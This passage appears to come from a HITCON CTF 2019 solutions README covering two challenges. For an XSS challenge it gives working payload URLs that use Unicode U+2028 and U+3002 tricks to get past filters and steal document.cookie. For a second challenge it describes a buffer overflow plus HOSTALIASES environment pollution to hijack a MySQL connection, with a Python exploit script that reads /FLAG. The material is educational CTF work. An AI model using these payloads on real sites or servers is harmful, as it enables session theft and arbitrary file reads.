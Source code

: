 Difficulty: **★★★☆**  
Solved: **30 / 1147**  
Tag:   **XSS**

#### Source Code

* [Website](hitcon-ctf-2019/bounty-pl33z/www/)  
* [XSS bot](hitcon-ctf-2019/bounty-pl33z/bot/)  

#### Solution

* Idea from [@FD](https://twitter.com/filedescriptor) - A little known JavaScript comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment) and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment) in EMCA specification. 

Here we use unicode `U+2028` and `U+3002` to bypass `\n` and `.` filters.

```
http://3.114.5.202/fd.php
?q=ssl。orange。tw?xx"%2bdocument[`cookie`]%E2%80%A8-->
```

#### Unintended Solution

* Nesting template expression

```
http://3.114.5.202/fd.php
?q=ssl。orange。tw?`%2b"%2bdocument[`cookie`];(`${`
```

#### Write Ups

* TBD

## **GoGo PowerSQL**
  
Difficulty: **★★★☆**  
Solved: **16 / 1147**  
Tag:   **Environment Injection**, **MySQL Client Attack**

#### Source Code

* [Docker](hitcon-ctf-2019/gogo-powersql/)  

#### Solution

1. Buffer Overflow the `DB_HOST` in BSS
2. Due to the [patch](hitcon-ctf-2019/gogo-powersql/Dockerfile#L20), we can pollute environment variable which are not in the [Blacklist](https://github.com/embedthis/goahead/blob/v4.0.0/src/cgi.c#L170).
3. Hijack MySQL connection by ENV such as `LOCALDOMAIN` or `HOSTALIAES`
4. Read `/FLAG` by `LOAD DATA LOCAL INFILE`.

```python
import requests

payload = ['x=x' for x in range(254)]
payload.append('name=x')
payload.append('HOSTALIASES=/proc/self/fd/0')
payload.append('orangeeeee=go')
payload = '&'.join(payload)

data = 'orangeeeee my.orange.tw'

r = requests.post('http://13.231.38.172/cgi-bin/query?'+payload, data=data)
print r.content
```
